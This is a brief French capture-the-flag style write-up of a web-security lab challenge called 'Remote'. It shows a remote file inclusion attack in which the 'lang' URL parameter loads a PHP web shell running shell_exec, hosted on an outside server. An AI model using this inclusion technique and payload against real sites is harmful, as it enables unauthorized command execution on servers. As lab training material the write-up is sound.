


## Remote

Ahah, je sais que je vais devoir injecter du code malicieux pour bypass les sécurités mises en places !

Pour tester on peut injecter ça dans l'url

```URL
https://remote.secu-web.blackfoot.dev/index.php?lang=https://www.google.com
```



Maintenant faisons notre injection php

```PHP
<?php
echo shell_exec("ls");
?>
```

je commence par créer un fichier php qui exécute la commande **ls un cat pour voir le contenu des fichiers**
je upload ce fichier sur mon super serveur dans le but d'injecter ce code malicieux hehe.

```URL
https://remote.secu-web.blackfoot.dev/index.php?lang=https://media.alors-la.center/s/0vyufe2p.php
```URL




